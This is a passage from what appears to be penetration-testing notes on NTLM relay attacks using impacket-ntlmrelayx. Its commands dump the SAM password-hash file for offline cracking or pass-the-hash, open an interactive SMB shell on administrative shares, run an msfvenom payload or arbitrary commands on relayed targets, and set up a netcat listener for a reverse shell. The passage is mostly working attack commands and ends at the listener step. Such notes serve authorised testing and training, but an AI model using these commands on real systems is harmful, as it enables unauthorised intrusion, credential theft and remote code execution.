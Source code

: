 Step 5: Upon success, you will see that a SAM file has been dumped

* SAM is a hash for a password
* We can take these offline and crack them
* Pass-The-Hash is available too

### Interactive SMB Shell

Start Interactive Session:

```
impacket-ntlmrelayx -tf targets.txt -smb2support -i

[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
```

Connect to Interactive Session:&#x20;

```
nc 127.0.0.1 11000
Type help for a list of commands
# help

# shares
ADMIN$
C$
IPC$
Share

# use C$
# ls

# use ADMIN$
# ls
```

### Execute a Reverse Shell or Meterpreter Listener

* Must generate payload with MSFVENOM!
* Get a shell in Metasploit/multihandler

```
impacket-ntlmrelayx -tf targets.txt -smb2support -e payload.exe
```

Execute a command:

<pre><code><strong>impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"</strong></code></pre>

You can also use a PowerShell Reverse Shell!

Start nc listener:

```
nc -lnvp 80
```
